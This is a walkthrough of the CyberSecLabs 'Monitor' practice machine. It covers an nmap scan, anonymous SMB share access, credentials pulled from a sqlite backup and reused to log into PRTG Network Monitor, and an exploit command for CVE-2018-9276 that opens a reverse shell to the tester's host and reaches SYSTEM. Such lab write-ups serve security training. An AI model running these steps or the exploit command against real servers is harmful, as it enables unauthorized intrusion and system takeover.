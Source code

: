 ```yaml
---
description: https://www.cyberseclabs.co.uk/labs/info/Monitor/
---
```


# Monitor

![](<../../../.gitbook/assets/image (648).png>)

## Nmap

```
kali@kali:~$ nmap 172.31.1.21 -p- -sV

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Indy httpd 18.1.38.11958 (Paessler PRTG bandwidth monitor)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

## SMB

As per usual I start with a quick null authentication check using `smbclient`. We see we are able to list shares and then able to connect into the 'WebBackups' share. From here we only have one folder listen which is a zip file. We use the `get` command to download the file before moving on to inspecting its contents.

![](<../../../.gitbook/assets/image (649).png>)

After unzipping the zip file with the `unzip` command we see the contents listed below. An immediate interesting file is db.sqlite3 file which is a database file.

![](<../../../.gitbook/assets/image (650).png>)

Kali comes pre-installed with a application called 'DB Browser for SQlite' which we can use to open the db.sqlite3.

![](<../../../.gitbook/assets/image (652).png>)

Moving over to the 'Browse Data' tab we see we have some credentials for `django:Se7vmMqP0al`

![](<../../../.gitbook/assets/image (653) (1).png>)

For now we are finished with the database file.

## HTTP

When we head over to the root page of 172.31.1.21 we come to an install of PRTG network monitor.

![](<../../../.gitbook/assets/image (654).png>)

I looked up the default credentials which are `prtgadmin:prtgadmin`. The default credentials did not provide myself access to the login. I also tried the credentials we pulled from the database earlier and they not did not either.

I did then try the password of 'Se7vmMqP0al' with the default PRTG username of 'prtgadmin' and was able to login.

![http://172.31.1.21/welcome.htm](<../../../.gitbook/assets/image (655) (1).png>)

## Exploitation

Researching exploits for PRTG network monitor on or below version 18.1.38.11958 as defined at the bottom of the root page we come to quite a few potential exploits. The easiest and most reliable I found was a PoC created by wildkindcc.

{% embed url="https://github.com/wildkindcc/CVE-2018-9276" %}

![](<../../../.gitbook/assets/image (656).png>)

We can then run the exploit with the required parameters.

```
python2 exploit.py -i 172.31.1.21 -p 80 --lhost <IP> --lport 4455 --user prtgadmin --password Se7vmMqP0al
```

![](<../../../.gitbook/assets/image (657).png>)

We are now SYSTEM on the server.
